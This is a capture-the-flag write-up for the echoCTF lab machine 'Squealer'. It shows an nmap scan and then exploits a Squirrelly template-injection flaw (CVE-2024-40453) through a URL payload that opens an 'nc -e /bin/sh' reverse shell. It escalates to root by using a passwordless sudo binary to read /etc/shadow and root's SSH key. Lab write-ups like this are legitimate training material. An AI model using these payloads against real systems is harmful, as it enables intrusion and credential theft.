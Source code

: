 ```yaml
---
description: >-
  Squealer echoCTF Machine
title: Squealer (Advanced)                # Add title here
date: 2025-01-30 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Squealer.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.48
```

### Content

-   Squirrelly v9.0.0 RCE (CVE-2024-40453)

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
cat allPorts 
# Nmap 7.94SVN scan initiated Fri Jan 31 00:00:23 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.48
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.48 ()     Status: Up
Host: 10.0.14.48 ()     Ports: 22/open/tcp//ssh///, 3000/open/tcp//ppp///
```
Services and Versions running:
```bash

```

### Exploitation

As shown in the netcat output, only port TCP-3000 is open, so we start by accessing to it from a browser just in case there is a website hosted:

![](/assets/img/Pasted-image-20250130234640.png)

From here there is a hint about the Template Engine, which makes us think about SSTI vulnerabilities, searching for an exploit on this I found this [Squirrelly v9.0.0 RCE](https://samuzora.com/posts/cve-2024-40453) with an excellent explanation with all the details we need to know, first of all to try out if the server might be vulnerable the following payload is used:

```bash
http://10.0.14.48:3000/?useWith=1&varName=console.log(%22x%22)
```
According with the blog post, if there is an error, then we are on the right way:
![](/assets/img/Pasted-image-20250130235003.png)

Then by reading all the blog, we identify the following payload that allows us to get a reverse shell:
```bash
http://10.0.14.48:3000/?useWith=1&varName=%7B%20a:%20b%20=%20global.process.mainModule.require(%22child_process%22).execSync(%22nc%20-e%20/bin/sh%2010.10.5.122%201234%22)%20%7D
```
And then we have a reverse shell as user `ETSCTF`:
```bash
nc -lvnp 1234     
listening on [any] 1234 ...
connect to [10.10.5.122] from (UNKNOWN) [10.0.14.48] 49658
python3 -c 'import pty; pty.spawn("/bin/bash")'
ETSCTF@squealer:/opt/app$
```

### Privilege Escalation

For privilege escalation there is a binary that can be executed as sudo without password:
```bash
ETSCTF@squealer:/opt/app$ sudo -l
Matching Defaults entries for ETSCTF on squealer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User ETSCTF may run the following commands on squealer:
    (ALL : ALL) NOPASSWD: /opt/node/bin/clisquir
```

Reading its content it seems that there is another squirrelly app within:
```bash
ETSCTF@squealer:/opt/app$ cat /opt/node/bin/clisquir
#!/opt/node/bin/node
var Sqrl = require('squirrelly')
var args = process.argv.slice(2);

var template = args[0];
var val = JSON.parse(args[1]) || { user: 'cool person' };
console.log(Sqrl.renderFile(template, val));
```

Searching for some payloads to exploit this kind of implementation I got this payload that allows Arbitrary File Read:

```bash
ETSCTF@squealer:/opt/app$ sudo /opt/node/bin/clisquir "/etc/shadow" '{}'
```
Finally to get root all it lefts is to read the id_rsa from root:
```bash
ETSCTF@squealer:/opt/app$ sudo /opt/node/bin/clisquir "/root/.ssh/id_rsa" '{}'
```
Run the `ssh -i id_rsa` and you'll get a root shell... AND WE ARE INSIDE!!!


### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

No credentials were found or needed.

### Notes

-   Simple exploits, nothing fancy here.

### References

- [Squirrelly v9.0.0 RCE](https://samuzora.com/posts/cve-2024-40453)

